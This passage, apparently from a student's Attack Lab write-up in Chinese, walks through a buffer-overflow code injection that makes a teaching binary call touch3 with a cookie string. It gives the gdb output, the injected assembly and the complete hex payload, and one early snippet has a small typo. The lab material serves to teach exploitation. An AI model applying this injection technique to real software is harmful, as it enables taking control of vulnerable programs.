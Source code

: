 现在的思路很明确，结合 Phase 1,2 的经验，我们需要做的事如下

1. 覆盖返回地址，跳转到堆栈指定位置（Phase 1）
2. 在指定位置处注入汇编代码，将参数传入 %rdi（Phase 2）
3. %rdi 中储存的是我们希望注入的字符串地址

那么主要的难点在于3。

首先用同样的方法查看目前栈顶的地址 

```shell
(gdb) info registers rsp
rsp            0x5561dc78       0x5561dc78
```

可以注入如下代码

```assembly
mov $0x5561dca8, %rdi
push %0x4018fa
ret
```

并在 0x5561dca8 处输入字符串对应的Ascii码

```
35 39 62 39 39 37 66 61
```

这里有一个疑问，为什么不将字符串储存在 0x5561dc88 - 0x5561dc98 这段位置呢？这是因为在进入 ``touch3`` 时，%rsp = 0x5561dca8，随后push了4次，将这部分地址的值改变了，如下所示

```shell
(gdb) x/16x 0x5561dc78
0x5561dc78:     0xa19ab800      0x04222cc9      0x5561dca8      0x00000000
0x5561dc88:     0x55685fe8      0x00000000      0x00000004      0x00000000
0x5561dc98:     0x00401916      0x00000000      0x55586000      0x00000000
0x5561dca8:     0x39623935      0x61663739      0x00401f00      0x00000000
```

为保险起见，我们将注入的字符串放在 0x5561dca8 这个位置，在执行 ``touch3, hexmatch``时不会改变此堆栈空间的值。

同 Level 2，将注入代码编译成汇编语言

```assembly

p1_l3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

故我们注入的代码为

```
48 c7 c7 a8 dc 61 55 68 # 0x5561dc78 mov   $0x5561dca8,%rdi
fa 18 40 00 c3 00 00 00 # 0x5561dc80 pushq $0x4018fa
00 00 00 00 00 00 00 00 # 0x5561dc88
00 00 00 00 00 00 00 00 # 0x5561dc90
00 00 00 00 00 00 00 00 # 0x5561dc98
78 dc 61 55 00 00 00 00 # 0x5561dca0 跳转至 0x5561dc78
35 39 62 39 39 37 66 61 # 0x5561dca8 字符串ascii码
```
